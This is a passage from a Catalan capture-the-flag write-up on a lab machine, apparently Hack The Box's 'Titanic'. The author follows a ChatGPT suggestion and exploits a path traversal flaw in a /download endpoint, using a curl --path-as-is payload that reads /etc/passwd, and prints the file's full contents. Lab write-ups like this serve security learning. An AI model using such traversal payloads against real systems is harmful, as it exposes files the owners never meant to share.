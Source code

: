 
El ChatGTP diu el següent:

### **1️⃣ Directory Traversal en `/download`**

**Problema:**  
El paràmetre `ticket` que es passa a `/download` es concatena directament amb `TICKETS_DIR`, cosa que pot permetre un atac de **path traversal** (`../../etc/passwd` per exemple). Un atacant podria intentar accedir a fitxers fora del directori `tickets`.

**Solució:**

- Verificar que `ticket` només conté caràcters alfanumèrics i `.json`
- Fer servir `os.path.abspath()` per comprovar que el fitxer és realment dins `TICKETS_DIR`

Com que ens suggereix un atac utilitzant path_traversal a /etc/passwd a través del directori-endpoint /download és el primer que farem:

### **1️⃣ Prova d'explotació de Path Traversal**

L'endpoint `/download` permet especificar un fitxer mitjançant el paràmetre `ticket`. Si no hi ha validació adequada, es pot intentar accedir a fitxers sensibles:

#### **Intentar llegir `/etc/passwd` (en sistemes Linux)**

`curl "http://127.0.0.1:5000/download?ticket=../../../../etc/passwd"`

Si l'aplicació és vulnerable, això ens retornaria el contingut de `/etc/passwd`. Adaptem la comanda que ens passa el ChatGPT i la tirem afegint l'opció `--path-as-is` que evita que `curl` normalitzi els `..` en la URL, cosa que podria impedir l'explotació si el servidor intenta netejar o modificar el camí abans de processar-lo, però no sembla que hi hagi res interessant:

```
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is http://titanic.htb/download?ticket=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```